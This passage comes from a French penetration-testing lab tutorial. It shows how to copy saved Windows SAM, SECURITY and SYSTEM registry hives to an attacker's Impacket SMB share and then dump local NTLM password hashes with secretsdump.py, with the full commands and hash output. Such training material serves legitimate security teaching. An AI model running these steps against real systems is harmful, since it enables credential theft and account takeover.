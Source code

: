 ```
dsgsec@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Une fois que le partage est exécuté sur notre hôte d'attaque, nous pouvons utiliser la commande move sur la cible Windows pour déplacer les copies de la ruche vers le partage.

```
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

Ensuite, nous pouvons confirmer que nos copies de ruche ont été déplacées avec succès vers le partage en naviguant vers le répertoire partagé sur notre hôte d'attaque et en utilisant ls pour répertorier les fichiers.

```
dsgsec@htb[/htb]$ ls

sam.save  security.save  system.save
```

## Dump des Hashes avec secretsdump.py d'Impacket
Secretsdump.py d'Impacket est un outil incroyablement utile que nous pouvons utiliser pour vider les hachages hors ligne. Impacket peut être trouvé sur la plupart des distributions de tests de pénétration modernes. Nous pouvons le vérifier en utilisant locate sur un système basé sur Linux :
```
dsgsec@htb[/htb]$ locate secretsdump 
```

L'utilisation de secretsdump.py est un processus simple. Tout ce que nous devons faire est d'exécuter secretsdump.py en utilisant Python, puis de spécifier chaque fichier de ruche que nous avons récupéré à partir de l'hôte cible.

```
dsgsec@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
```